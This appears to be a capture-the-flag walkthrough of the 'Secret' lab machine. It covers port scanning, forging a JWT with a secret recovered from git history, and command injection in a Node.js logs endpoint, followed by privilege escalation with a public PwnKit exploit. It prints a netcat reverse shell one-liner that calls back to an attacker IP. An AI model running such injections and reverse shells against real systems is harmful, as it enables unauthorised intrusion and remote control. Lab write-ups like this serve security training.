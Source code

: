 # Secret

As always let's start with `nmap`

```console
$ sudo nmap -Pn -n -sS -sV -T4 10.10.11.120
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-27 00:13 CET
Nmap scan report for 10.10.11.120
Host is up (0.082s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port `80` we have this page

![](2022-02-27-00-17-50.png)

With `gobuster` we can scan for some hidden pages

```console
$ gobuster -u http://10.10.11.120 -w common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.11.120/
[+] Threads      : 10
[+] Wordlist     : common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/02/27 00:17:22 Starting gobuster
=====================================================
/api (Status: 200)
/assets (Status: 301)
/docs (Status: 200)
/download (Status: 301)
=====================================================
2022/02/27 00:17:53 Finished
=====================================================
```

From download we can get the source code, but there are so many files...let's skip that for the moment

In the docs page we see that there are some APIs, so let's try so make some requests

![](2022-02-27-00-55-27.png)

![](2022-02-27-00-56-52.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjFhYzIwY2Q4ZGFkZjA0NWQ1YzM0OWUiLCJuYW1lIjoibWFyY29vIiwiZW1haWwiOiJtYXJjb0BtYXJjby5pdCIsImlhdCI6MTY0NTkyMDg2Mn0.YKnCIvtVb5vIJwvnDWc1TnVuiUZq3FSHKDbs-_lxD1A
```

![](2022-02-27-00-59-00.png)

Not too much information...maybe we can try to see if we can get an admin account

The token is encoded with jwt

![](2022-02-27-01-00-25.png)

No other things to try here, let's return to the source code

Inside `public > routes` we can find all the api endpoints we have already tested plus one, `/logs`

```js
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

It seems like that we can execute some commands, so let's try to register a user with `theadmin` as name

![](2022-02-27-01-13-10.png)

Nothing to do...so maybe we can try to edit the jwt token of our user and change the name to `theadmin`. For doing that we need some secret to verify the signature. Inside the `.env` file we have somethings

```
DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
TOKEN_SECRET = secret
```

Let's try with 

![](2022-02-27-01-18-39.png)

![](2022-02-27-01-18-58.png)

Opening the folder with vscode reveals that there is a git repository, let's try too see if there is some older version of this `.env` file

![](2022-02-27-01-20-27.png)

![](2022-02-27-01-21-08.png)

```
gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
```

Let's use this as secret

![](2022-02-27-01-21-44.png)

![](2022-02-27-01-22-08.png)

Very nice! Now we can return to the `/logs` endpoint

![](2022-02-27-01-23-57.png)

Never used js, so let's break down the code with the help of Google

Ok, so it seems like that `req.query.file` take the http parameters, so we can add `?file=<somethings>` and try to see if we can execute some commands

![](2022-02-27-01-28-12.png)

Now we can get the user flag

![](2022-02-27-01-33-25.png)

#### **USER OWN >>** `d9cf42ee9c1439b92d75bea07051b85f`

NICE!! Now let's open a reverse shell and continue

```
rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7Csh%20-i%202>&1%7Cnc%2010.10.16.68%209005%20>/tmp/f
```

```console
$ nc -lvnp 9005
Listening on 0.0.0.0 9005
Connection received on 10.10.11.120 49668
sh: 0: can't access tty; job control turned off
$ whoami
dasith
```

First let's start with a LinPEAS scan

![](2022-02-27-12-34-29.png)

Let's find ad exploit for this

https://github.com/berdav/CVE-2021-4034

![](2022-02-27-12-39-48.png)

#### **SYSTEM OWN >>** `e0fc9fc0572c5d630caea4065e919ff0`